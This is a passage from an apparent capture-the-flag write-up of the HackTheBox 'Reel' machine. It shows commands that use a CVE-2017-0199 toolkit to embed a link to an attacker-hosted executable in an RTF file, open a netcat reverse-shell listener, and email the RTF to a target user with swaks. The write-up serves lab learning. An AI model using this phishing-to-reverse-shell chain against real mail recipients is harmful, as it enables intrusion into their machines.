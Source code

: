 ```bash
python2 cve-2017-0199_toolkit.py -M exp -e http://10.10.14.36/sale.exe -l /root/boxes/HackTheBox/Reel/sale.exe
```

The `-M` specifys we are running in exploit mode, the `-e` is the URL for the file to execute, and the `-l` is the local path to the reverse shell payloads file.

Here you can see the web server waiting for the target to retrive the link:

![wait-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Reel/img/wait-14.png)


4) Start the nc listener:

```bash
rlwrap nc -lnvp 443
```

5) Finally, send the email to execute the payload. 

We can send an email with attachments using `swaks`:

```bash
echo "test" | swaks --server reel.htb:25 --from test@test.org --to nico@megabank.com --attach Sales.rtf
```

The email is sucsesfully sent, and the embedded link inside the `rtf` is triggered, as the client reaches over to fetch the link:

![fetched-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Reel/img/fetched-15.png)

But we didnt connect on the reverse shell, why? 

At first I tried to use different payloads, staged, non-staged, x86 payloads, metasploit, etc, nothing worked. So I took a look at the exploit source code, I started by saerching for the `Received GET method` string:

![string-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Reel/img/string-16.png)

